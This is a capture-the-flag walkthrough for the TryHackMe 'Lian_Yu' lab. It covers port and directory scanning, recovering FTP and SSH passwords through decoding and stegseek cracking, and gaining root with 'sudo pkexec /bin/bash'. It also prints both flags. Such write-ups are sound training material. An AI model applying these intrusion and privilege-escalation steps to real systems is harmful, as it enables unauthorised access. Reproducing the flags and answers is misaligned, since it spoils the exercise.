





# Lian_Yu

* IP = 10.10.79.242

## Questions/Tasks:

1. Deploy the VM<br>
*No answers needed*

* Nmap Scan Report:
```bash
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC \#100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44114/udp   status
|   100024  1          46468/udp6  status
|   100024  1          48522/tcp6  status
|_  100024  1          58311/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* Gobuster Scan Report:<br>
* Initial
```bash
$ gobuster -u "http://10.10.203.137/" -w directory-list-2.3-small.txt
/island (Status: 301)
```


* Second
```
$ gobuster -u "http://10.10.203.137/island" -w directory-list-2.3-small.txt
/2100 (Status: 301)

```
* Strange comments found:<br>

* Third
```
$ gobuster -u "http://10.10.203.137/island/2100" -x ticket -w directory-list-2.3-small.txt
/green_arrow.ticket (Status: 200)
```

2. What is the Web Directory you found?<br>
**Ans-2100**

3. what is the file name you found?<br>
**Ans-green_arrow.ticket**<br>


4. what is the FTP Password?

* The above code is probably base58
* After decoding-!#th3h00d<br>
**Ans-!#th3h00d**

5. what is the file name with SSH password?

* Login with ftp:
```
username: vigilante
password: !#th3h00d
```
* 3 files are present in home directory:

* We get all of them, 2 of those looks ok but the *Leave_me_alone.png* was corrupted
* Use hexedit to change the 1st bytes as follows:<br>
*Previous*
```
00000000: 5845 6fae 0a0d 1a0a 0000 000d 4948 4452  XEo.........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
*After Changing*
```
00000000: 8950 4e47 0a0d 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371  ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24  [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934  Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556  jiT..s...<.~...V
00000050: 4955 75d7 5c98 5c22 c2dd 6c3e 00e7 c0e0  IUu.\.\"..l>....
00000060: 4e66 a94a 3d71 3f5e 32c9 085f cccd 60c0  Nf.J=q?^2.._..`.
00000070: c1c1 41f9 7ffe dfff bb2f eb22 fab5 aeab  ..A....../."....
00000080: 7d9d cfe7 f81e 5fcb 49ce ed94 7eb7 d8d7  }....._.I...~...
00000090: 723c c9e9 7492 d3d3 494e c793 9c8f 8b2c  r<..t...IN.....,
```
* But that doesn't change the problem
* Queen's Gambit.png:

* aa.jpg:


* So trying on the .jpg file, we can find some hidden stuff with steghide/stegseek:
```bash
→ stegseek aa.jpg rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".

```
* Extracting the ss.zip from aa.jpg and unzipping it we get:
```bash
→ unzip ss.zip
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado  
```
* Contents of shado:
```
M3tahuman
```
* Contents of passwd.txt:
```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

```
**Ans-shado**

6. user.txt

* Previously while exploring the ftp server we found the slade user other than vigilante:<br>

* I tried first with vigilante but didn't succeed.
* SSH into server with:
```bash
ssh slade@$IP
```
* Navigate to user's home and find the flag:<br>
**Ans-THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}**

7. root.txt

* To escalate privileges, first check the commands that can be run with sudo(using the same password, M3tahuman):
```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Sorry, try again.
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
* Search <a href="">Gtfobins</a> for specific privilege escalation technique with pkexec:
```bash
sudo /usr/bin/pkexec /bin/bash
```
* Navigate to /root and find the flag <br>

**Ans-THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}**
